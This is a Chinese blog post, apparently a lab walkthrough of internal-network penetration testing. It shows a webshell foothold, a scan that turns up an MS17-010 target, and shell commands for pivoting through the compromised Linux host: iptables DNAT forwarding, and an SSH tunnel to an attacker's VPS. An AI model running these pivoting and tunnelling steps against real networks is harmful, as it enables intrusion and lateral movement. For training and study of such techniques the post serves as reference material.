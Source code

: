 ```yaml
---
layout:     post             
title:      内网保姆车 - 发车啦
date:       2023-10-02            
author:     sule01u                  
head-img:   img/post-bg-keybord.jpg 
catalog: true                      
tags:      
   - 渗透测试
---
```


# 内网渗透实验

## 拓扑如下

![image-20231002220701603](https://p.ipic.vip/2mr93m.png)

## 逐步渗透

#### 1. 拿下web所在主机

> 前置条件：已通过centos的web漏洞拿到shell, 比如搭建tomcat-CVE-2017-12165，进行内网渗透实验
>
> 学习目标：了解内网渗透

- 冰蝎连接centos中的webshell进行操作：

​	使用冰蝎上传fscan,扫描内网,可以看到资产192.168.152.141存在ms17-010漏洞

![image-20230917193540922](https://p.ipic.vip/f86gf5.png)

#### 2. 通过ms17-010拿下win7

**内网穿透**

- 第一种方法 (冰蝎执行命令): 失陷的centos上配置dnat（限制：需要root权限）

```shell
# 失陷linux主机上设置DNAT策略
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination <win7主机_IP>:<win7端口>
iptables -t nat -A POSTROUTING -j MASQUERADE
```

- 第二种方法 ： 在失陷的linux主机上搭建ssh隧道，让流量经过你的vps攻击机（普通用户权限即可）

  适用于目标主机不出网，通过已经失陷的linux主机将流量带出来

```shell
# 失陷linux主机上执行命令,4444为失陷linux主机端口，5555为vps监听端口
# 失陷linux 4444端口的流量会经过vps转发，vps转发到127.0.0.1即是vps自己，也就是失陷的linux主机上4444端口的流量转发到vps主机上的5555端口
ssh -L 4444:127.0.0.1:5555 root@vps_ip
```
